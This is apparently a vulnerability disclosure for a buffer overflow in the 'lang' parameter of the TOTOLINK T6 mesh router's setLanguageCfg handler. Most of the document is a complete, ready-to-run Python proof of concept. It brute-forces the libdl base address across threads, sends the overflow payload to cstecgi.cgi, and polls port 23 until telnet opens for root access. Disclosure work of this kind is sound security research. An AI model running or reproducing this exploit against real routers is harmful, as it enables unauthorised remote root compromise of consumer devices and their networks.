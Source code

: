 # Information

**Vendor of the products:** TOTOLINK

**Vendor's website:** [TOTOLINK](https://www.totolink.net/)

**Affected products:** [T6](https://www.totolink.net/home/menu/newstpl/menu_newstpl/products/id/190.html)

**Affected firmware version:** V4.1.5cu.748_B20211015

**Firmware download address:** [Download Page](https://www.totolink.net/home/menu/detail/menu_listtpl/download/id/190/ids/36.html)

# Overview

TOTOLINK Mesh Wifi T6 router has a buffer overflow vulnerability that lead to RCE. This vulnerability can be triggered through the topicurl ` setLanguageCfg`. An attacker can implement a RCE attack by sending a malicious HTTP POST request.

# Vulnerability details

The `product_info` is 256 bytes.

![](2/1.png)

`lang` is the param attacker control.

![](2/2.png)

`sprintf` doesn't check length of `lang`. When the attacker send a malicious `lang` param, the saved ret_address will be overwrite. Lead it to execute whatever the attacker want.

![](2/3.png)

Attacker can reboot the system or bruteforce the base of dynamic library to do ROP chain attack. In the POC video, the attacker turn on `telnet` to achive root shell.

# POC

```python
import requests, sys, threading, time, queue, random, struct, socket, os

MAX_ADDR = 2 ** 12
WORKER_AMOUNT = 4

START_TIME = 0

brute_queue = queue.Queue()

def worker(target_ip):
    while True:
        try:
            brute_val = brute_queue.get_nowait()
        except queue.Empty:
            break
        
        print("  [-] Trying 0x%x" % brute_val)

        url = f"http://{target_ip}/cgi-bin/cstecgi.cgi"

        brute_base = 0x77000000 
        telnetd_str_off = 0x5BA4

        brute_val = brute_val * 0x1000 + brute_base # base of /lib/libdl-0.9.33.so
        brute_val += 0x11c000

        brute_telnet_str = brute_val + telnetd_str_off

        temp = struct.pack("<I", brute_telnet_str)

        payload = b"A" * 324 + temp + b"C" * 4 + b"\x08\x88\x40"

        data = b'''
        {
            "topicurl":"setLanguageCfg",
            "lang":"%s",
            "langAutoFlag":"sad POC"
        }
        ''' % (payload)

        requests.post(url, data=data)

def check_telnet(target_ip):
    global START_TIME
    print("[+] Check telnet port !!")
    while True:
        with socket.socket(socket.AF_INET, socket.SOCK_STREAM) as sock:
            sock.settimeout(1)
            try:
                sock.connect((target_ip, 23))
                print(f"[+] Found !!")
                print(f"[+] Script run: {round(time.time() - START_TIME)}s")
                os._exit(0)
            except (socket.timeout, socket.error):
                continue
        time.sleep(1)

if __name__ == "__main__":
    if len(sys.argv) != 2:
        print(f"[-] Usage: {sys.argv[0]} target_ip")
        exit(0)

    START_TIME = time.time()
    print(f"[+] Wish me luck !!")
    
    brutes = list(range(0x10, MAX_ADDR))
    random.shuffle(brutes)

    for brute in brutes:
        brute_queue.put(brute)
    
    threads = []
    for _ in range(WORKER_AMOUNT):
        t = threading.Thread(target=worker, args=(sys.argv[1],))
        t.start()
        threads.append(t)

    t2 = threading.Thread(target=check_telnet, args=(sys.argv[1],))
    t2.start()
    threads.append(t2)

    for t in threads:
        t.join()
```

[POC 1](https://www.youtube.com/watch?v=Aio5EGlzMO8) - Turn on telnet by bruteforcing dynamic library base<br>
[POC 2](https://www.youtube.com/watch?v=jSMOeIb6dLY) - Force the system to reboot
